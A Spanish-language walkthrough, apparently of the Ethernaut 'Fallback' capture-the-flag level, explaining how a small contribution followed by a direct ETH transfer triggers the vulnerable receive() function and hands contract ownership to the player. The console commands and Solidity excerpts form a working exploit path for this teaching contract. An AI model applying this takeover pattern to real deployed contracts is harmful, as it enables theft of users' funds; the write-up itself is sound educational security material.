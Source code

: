 # La importancia de una función fallback segura
Este contrato cuenta con un mecanismo de contribuciones y una función fallback que se ejecuta cuando el contrato recibe fondos sin haber pasado por una función del propio contrato.

El constructor establece una contribución de 1000 ETH para el propietario, y para clasificar como contribución, se debe enviar una cantidad menor de 0.001 ETH.
Tenemos que aprovechar esta función fallback para llegar a owner y poder retirar todos los fondos del contrato.

El objetivo del jugador es aprovechar esta función fallback para transferir ETH desde el contrato a su cuenta.
```solidity
contract Fallback {
...
  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }
  ...
  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
 ...
  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
- Contrato Original: [Fallback](Fallback.sol)

---
## Conceptos
- La función fallback: En Solidity es una función especial que se ejecuta automáticamente cuando se envía una transacción a un contrato sin especificar una función en particular.
- Wei: Es la unidad más pequeña de Ethereum y representa la cantidad mínima divisible de ether.
---
### Conseguir el owner del contrato
Hay 2 formas de llegar al owner.

- (EXPECTED) Teniendo más contribuciones que el actual owner (1000 ETH) que se asignó en el constructor.

Tendremos que tener mas de 1000 ETH de contribuciones y por cada contribucion como maximo podemos enviar 0.001 ETH para llegar a superar al owner. (No merece la pena por la cantidad excesiva de transacciones)
```solidity
function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }
```

- (UNEXPECTED) Aprovechandonos de la funcion fallback vulnerable a escalar a owner
```solidity
receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
---

### Como ejecutamos la funcion fallback "receive()"?
Requisitos:
- El valor que se envie al contrato sea mayor a 0
- Las contribuciones del que cae en la funcion sea mayor a 0
```solidity
 require(msg.value > 0 && contributions[msg.sender] > 0);
 ```

Checkeamos cuantas contribuciones tenemos:
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0'
```

Para conseguir contribuciones tenemos que enviar MENOS de 0.001 ETH usando la funcion contribute()
```solidity
require(msg.value < 0.001 ether);
contributions[msg.sender] += msg.value;
```

1- Enviamos 0.0009 ETH que es menos de 0.001 ETH que es el maximo para realizar una contribucion.
```js
-> await contract.contribute.sendTransaction({ from: player, value: toWei('0.0009')})
<- {tx: '0xtx', receipt:...}
```
2- Comprobamos que hemos hecho una contribucion
```js
-> await contract.getContribution().then(cantidad => fromWei(cantidad.toString()))
<- '0.0009'
```

Ya tenemos el requisito de tener contribuciones mayor a 0 para que la funcion fallback se ejecute.
Para que se ejecute receive tenemos que enviar algo de ETH al contrato

```js
-> await sendTransaction({from: player, to: contract.address, value: toWei('0.0000001')})
<- '0xtx...'
```

Ya somos el owner dado a que hemos complido los requisitos de la funcion receive para que el valor owner sea el msg.sender.

```js
-> await contract.owner()
<- '0xnuestrawallet'
```
